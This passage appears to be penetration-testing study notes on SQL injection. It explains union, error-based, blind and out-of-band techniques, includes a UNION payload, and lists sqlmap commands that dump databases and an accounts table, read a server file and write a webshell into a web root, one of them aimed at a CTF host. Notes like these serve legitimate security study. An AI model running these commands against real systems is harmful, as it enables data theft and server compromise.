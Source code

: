 ```sql
cn' UNION select 1,2,3;-- -
```

## Error Based
As for Error Based SQL injection, it is used when we can get the PHP or SQL errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.


# Blind
In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as Blind SQL injection, and it also has two types: Boolean Based and Time Based.

## Boolean Based 
With Boolean Based SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns true.

## Timed Based
As for Time Based SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns true using the Sleep() function.

# Out Of Band
In some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as Out-of-band SQL injection.


* * *

# SQLMap
```bash
$ sqlmap -r request.req --dbs
$ sqlmap -r request.req -D main --tables
$ sqlmap -r request.req -D main -T user --columns
$ sqlmap -r request.req -D main -T user --dump
$ sqlmap -r req.req --level=5 --risk=3 --batch --file-read=/var/www/html/index.php>
$ sqlmap -r req.req --level=5 --risk=3 --batch --file-write=/home/kali/Downloads/Exploit/webshell.php --file-dest=/var/www/html/webshell.php
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 --level 5 --risk 3 --batch -D soccer_db -T accounts --dump
```

  **Common Commands** 

  - `-r` Request file
  - `--level` (max 5)
  - `--risk` (max 3)
  - `--batch` Ask no questions
  - `--no-cast` Assure the correct content
  - `--fresh-queries` Run the query again
  - `--prefix` Add a prefix before every payload
  - `--suffix` Add a suffix after every payload
  